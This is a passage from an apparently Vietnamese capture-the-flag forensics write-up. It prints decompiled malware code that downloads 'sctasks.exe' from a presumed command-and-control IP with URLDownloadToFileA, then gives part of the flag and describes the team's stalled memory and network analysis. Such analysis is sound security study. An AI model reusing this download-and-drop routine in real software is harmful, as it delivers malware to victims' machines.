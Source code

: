 ```c
    {
      if ( !*v33 )
        break;
      ++v33;
      --v32;
    }
    while ( v32 );
    v34 = 260 - v32;
    if ( v32 )
    {
      v35 = &v40[v34];
      v36 = 260 - v34;
      if ( 260 != v34 )
      {
        v37 = (char *)("\\sctask.exe" - v35);
        do
        {
          if ( !v0 )
            break;
          v38 = v35[(_QWORD)v37];
          if ( !v38 )
            break;
          *v35 = v38;
          --v0;
          ++v35;
          --v36;
        }
        while ( v36 );
      }
      v39 = v35 - 1;
      if ( v36 )
        v39 = v35;
      *v39 = 0;
    }
    return URLDownloadToFileA(0, "https://10.10.70.114/sctasks.exe", v40, 0, 0);
  }
  return result;
}
```

Hàm này tải những file sau (`encrypted.bin`, `2.txt` và `sctasks.exe`) từ IP `10.10.70.114` khá chắc chắn đây là một server C2, trong đây cũng có phần 1 của flag

`L3AK{AV_evasion_is_easy`

Sau đó lục lại trong memdump thì không thấy gì, đã tìm qua filescan, eventlog, tìm key khôi phục thư mục `Quarantine` nhưng cũng không thấy gì cả. Do các packet trong file pcap bị mã hoá TLSv1.2 cho nên khi tìm key TLS để decrypt traffic cũng không có trong mempdump (Bởi vì nó không có, mà phải tìm trong file pcap xdd). Thế là team stuck zzz

Sau giải mới biết rằng sau mỗi một phần của flag thì ta sẽ chuyển sang file(stage) tiếp theo

## Giai đoạn 2: Network forensics
